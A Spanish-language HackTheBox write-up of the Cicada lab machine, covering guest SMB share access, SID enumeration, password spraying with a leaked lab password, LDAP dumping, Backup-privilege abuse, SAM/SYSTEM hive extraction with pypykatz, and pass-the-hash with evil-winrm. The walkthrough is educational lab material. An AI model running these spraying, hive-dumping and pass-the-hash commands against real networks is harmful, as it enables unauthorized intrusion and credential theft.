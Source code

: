 ```yaml
---
layout: single
title: Cicada - HackTheBox
excerpt: "Este writeup documenta la explotación de la máquina Cicada en HackTheBox, destacando vulnerabilidades y técnicas de escalada de privilegios mediante SMB, dumping de LDAP y abuso de permisos de Backup."
date: 2025-03-03
classes: wide
header:
  teaser: /assets/images/Cicada/Cicada.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - HackTheBox
tags:  
  - SMB Exploitation
  - Windows Privilege Escalation
  - LDAP Dumping
---
```


![](/assets/images/Cicada/Cicada.png){:style="max-width:450px;height:auto;"}

## Resumen

En este writeup se explora la explotación de la máquina Cicada en HackTheBox, abordando diversas vulnerabilidades que permiten la escalada de privilegios hasta el usuario Administrator. Se documenta el proceso completo, desde el reconocimiento inicial hasta la obtención de acceso y escalación de privilegios, utilizando técnicas como el acceso a recursos compartidos SMB, el dumping de LDAP y el abuso de permisos en Windows.

## Reconocimiento

El servidor expone los siguientes servicios:

- Domain en el puerto 53

- Kerberos-sec en el puerto 88

- MSRPC en el puerto 135

- Netbios-ssn en el puerto 139

- LDAP en el puerto 389

- Microsoft-ds en el puerto 445

- Kpasswd5 en el puerto 464

- SSL/LDAP en el puerto 636

- LDAP en el puerto 3268

- SSL/LDAP en el puerto 3269

- HTTP en el puerto 5985

Realizamos un escaneo de puertos con nmap para identificar los servicios disponibles, también ejecutamos scripts básicos de reconocimiento con nmap:

![](/assets/images/Cicada/Reconocimiento-Puertos.png)

![](/assets/images/Cicada/Reconocimiento-Puertos-Scripts.png)

## SMB Shares

Una vez hecho el reconocimiento, si vemos los recursos compartidos con el usuario 'Guest' sin agregar contraseña, podemos ver que tenemos dos recursos 'HR' y 'IPC$':

![](/assets/images/Cicada/SMB-Shares.png)

Si entramos en el recurso 'HR', nos encontramos con un fichero txt (Notice from HR.txt), nos lo traemos a nuestra máquina:

![](/assets/images/Cicada/SMB-Shares-HR.png)

Si observamos el documento, podemos encontrarnos con una credencial:

![](/assets/images/Cicada/SMB-Shares-HR-File.png)

Si listamos los usuarios que hay en el dominio:

    -> impacket-lookupsid anonymous@cicada.htb
        Impacket v0.11.0 - Copyright 2023 Fortra

        Password:
        [*] Brute forcing SIDs at cicada.htb
        [*] StringBinding ncacn_np:cicada.htb[\pipe\lsarpc]
        [*] Domain SID is: S-1-5-21-917908876-1423158569-3159038727
        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
        500: CICADA\Administrator (SidTypeUser)
        501: CICADA\Guest (SidTypeUser)
        502: CICADA\krbtgt (SidTypeUser)
        512: CICADA\Domain Admins (SidTypeGroup)
        513: CICADA\Domain Users (SidTypeGroup)
        514: CICADA\Domain Guests (SidTypeGroup)
        515: CICADA\Domain Computers (SidTypeGroup)
        516: CICADA\Domain Controllers (SidTypeGroup)
        517: CICADA\Cert Publishers (SidTypeAlias)
        518: CICADA\Schema Admins (SidTypeGroup)
        519: CICADA\Enterprise Admins (SidTypeGroup)
        520: CICADA\Group Policy Creator Owners (SidTypeGroup)
        521: CICADA\Read-only Domain Controllers (SidTypeGroup)
        522: CICADA\Cloneable Domain Controllers (SidTypeGroup)
        525: CICADA\Protected Users (SidTypeGroup)
        526: CICADA\Key Admins (SidTypeGroup)
        527: CICADA\Enterprise Key Admins (SidTypeGroup)
        553: CICADA\RAS and IAS Servers (SidTypeAlias)
        571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)
        572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)
        1000: CICADA\CICADA-DC$ (SidTypeUser)
        1101: CICADA\DnsAdmins (SidTypeAlias)
        1102: CICADA\DnsUpdateProxy (SidTypeGroup)
        1103: CICADA\Groups (SidTypeGroup)
        1104: CICADA\john.smoulder (SidTypeUser)
        1105: CICADA\sarah.dantelia (SidTypeUser)
        1106: CICADA\michael.wrightson (SidTypeUser)
        1108: CICADA\david.orelious (SidTypeUser)
        1109: CICADA\Dev Support (SidTypeGroup)
        1601: CICADA\emily.oscars (SidTypeUser)

Podemos hacer un 'passsword spraying' y con eso averiguar el usuario de esa credencial anteriormente encontrada.

    nxc smb cicada.htb -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success

Una vez sabemos que el usuario 'Michael.wrightson' tiene la credencial anteriormente encontrada, podemos dumpear LDAP.

Una vez dumpeada, hay un archivo llamado 'domain.users.grep' que contiene un usuario 'david.orelious' con su contraseña:

![](/assets/images/Cicada/LDAP-DUMP.png)

Con las credenciales de 'david.orelious', vamos a ver que recursos compartidos puede ver:

![](/assets/images/Cicada/SMB-Shares-David.png)

Vemos que tiene permisos de lectura en 'DEV', 'HR', 'IPC$', 'NETLOGIN' y en 'SYSVOL', la que nos interesa es 'DEV', hay un archivo llamado 'Backup_script.ps1':

![](/assets/images/Cicada/SMB-Shares-David-DEV.png)

Si nos lo traemos a nuestra máquina, podemos ver otras credenciales, en este caso de la usuaria 'emily.oscars' y su contraseña:

![](/assets/images/Cicada/SMB-Shares-David-DEV-File.png)

## Reverse Shell

Con la herramienta 'evil-winrm' nos conectamos como la usuaria 'emily.oscars', y en su escritorio tenemos la bandera 'user':

![](/assets/images/Cicada/Reverse-Shell.png)

## Escalada de Privilegios

Si listamos los permisos que tiene emily:

![](/assets/images/Cicada/Emily-Privileges.png)

Podemos ver que tenemos permisos de 'Backup', podemos hacer una copia de la bandera 'root':

![](/assets/images/Cicada/Robocopy.png)

![](/assets/images/Cicada/Flag-Root.png)

### NOTA

En vez de copiar solo la bandera y dar por finalizada la máquina, también se puede escalar de privilegios extrayendo los archivos 'SAM' y 'SYSTEM':

- SAM: Contiene los hashes de las contraseñas de los usuarios locales

- SYSTEM: Contiene la clave de cifrado necesaria para descifrar los hashes de SAM

Se extraen:

    reg save hklm\sam c:\Directorio-a-elegir\sam (nombre final para el archivo)

    reg save hklm\system c:\Directorio-a-elegir\system (nombre final para el archivo)

Traes a tu equipo los archivos, y con la herramienta 'pypykatz' analizas los archivos SAM y SYSTEM para obtener los hashes NTLM:

    -> pypykatz registry --sam sam system
        WARNING:pypykatz:SECURITY hive path not supplied! Parsing SECURITY will not work
        WARNING:pypykatz:SOFTWARE hive path not supplied! Parsing SOFTWARE will not work
        ============== SYSTEM hive secrets ==============
        CurrentControlSet: ControlSet001
        Boot Key: 3c2b033757a49110a9ee680b46e8d620
        ============== SAM hive secrets ==============
        HBoot Key: a1c299e572ff8c643a857d3fdb3e5c7c1010101010101010101010101
        Administrator:500:aad3b435b51404eeaad3b435b5:2b87e7c93a3e8a0*********:::
        Guest:501:aad3b435b51404eeaad3b435b5:31d6cfe0d16ae931b73c5***********:::
        DefaultAccount:503:aad3b435b51404eeaad3b435b5:31d6cfe0d16ae931b7*****:::
        WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b:31d6cfe0d16ae931b73c59*****:::

Una vez tienes el hash NTLM del usuario 'Administrator', inicias una shell con la herramienta 'evil-winrm':

    evil-winrm -i cicada.htb -u administrator -H 2b87e7c93a3e8a0ea4a********

### Conclusión

La máquina Cicada demuestra cómo múltiples vectores de ataque pueden ser encadenados para comprometer un sistema. Desde la obtención de credenciales en recursos compartidos SMB hasta el dumping de LDAP y la escalada de privilegios mediante el abuso de permisos de Backup, este reto refuerza la importancia de la seguridad en entornos Windows. La combinación de técnicas como password spraying, LDAP dumping, abuso de permisos y extracción de hashes NTLM subraya la necesidad de aplicar buenas prácticas de seguridad, control de accesos y segmentación en cualquier infraestructura empresarial.
